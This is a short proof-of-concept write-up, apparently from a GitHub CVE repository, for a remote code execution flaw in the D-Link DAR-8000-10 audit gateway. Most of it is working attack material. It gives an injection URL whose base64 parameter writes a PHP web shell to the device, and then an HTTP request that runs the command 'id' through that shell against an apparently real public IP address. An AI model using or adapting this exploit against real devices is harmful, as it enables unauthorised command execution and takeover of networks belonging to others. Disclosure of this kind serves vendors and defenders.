 # poc
The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![图片](https://github.com/PumpkinBridge/cve/assets/139355470/b82244f0-4d4e-4b89-ab81-cba76871f4ac)

Construct url:
https://ip:port/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
After downloading
Then execute poc:
```
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![图片](https://github.com/PumpkinBridge/cve/assets/139355470/63a02104-208f-4579-830f-3cd99a1178c8)

